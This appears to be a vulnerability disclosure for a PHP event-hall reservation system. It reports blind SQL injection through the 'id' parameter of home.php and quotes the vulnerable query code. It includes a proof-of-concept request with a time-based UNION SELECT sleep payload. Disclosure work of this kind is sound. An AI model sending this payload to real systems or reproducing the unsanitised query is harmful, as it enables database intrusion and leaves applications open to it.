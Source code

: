 # MAGESH-K21 / Online-College-Event-Hall-Reservation-System - Blind SQL Injection on logincheck.php via home.php

## **Credits**
> Joshua Lictan (https://github.com/skid-nochizplz/skid-nochizplz)<br/>

## Vendor Homepage:
> https://github.com/MAGESH-K21/Online-College-Event-Hall-Reservation-System/
>
## Affected Component
> /home.php
> /config/logincheck.php

## Code
#### home.php
```php
<?php include('config/logincheck.php');$id=$_GET['id'];?>
```
#### /config/logincheck.php
```php

    $id=$_GET['id'];
    $sql="SELECT * FROM tbl_user WHERE user_id='$id'";
    $res=mysqli_query($conn,$sql);
    if($res==True){
      while($row=mysqli_fetch_assoc($res)){
        $user_name=$row['user_name'];
        $user_dept=$row['user_dept'];
        $user_email=$row['user_email'];
        $user_password=$row['user_password'];
      }
    }
```

## Proof of Concept
**HTTP Request Example**
``` http request
GET /home.php?id=NoChizPlz'+union+select+sleep(5),1,1,1,1+%23 HTTP/1.1
Host: [REDACTED]
```

## Screenshot

